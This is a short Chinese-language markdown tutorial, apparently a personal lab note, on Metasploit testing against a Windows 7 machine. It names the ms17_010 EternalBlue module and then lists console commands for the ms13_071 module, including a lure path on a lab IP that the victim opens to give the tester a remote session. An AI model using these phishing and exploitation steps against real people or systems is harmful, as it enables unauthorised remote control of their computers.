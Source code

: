 # Metasploit安全测试

+ 系统测试
+ 钓鱼测试

## 系统测试

使用`ms17_010`进行测试，永恒之蓝测试，在此不做演示 

## 钓鱼测试

通过诱使对方点击恶意链接，进而获取权限，达到控制的目的

本节采用`ms13_071`

`search ms13_071` `use 0` 

`run`执行操作，会生成一个控制连接 `\\192.168.110.128\LAxqHy\msf.src`

在win7上win+r键输入上述指令，执行过后，确定执行操作，显示会话成功后空格

输入`sessions`显示存在进程

之后`sessions -i 1`进入管理权限

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\03.png)

`sysinfo`可以查看可以执行的命令

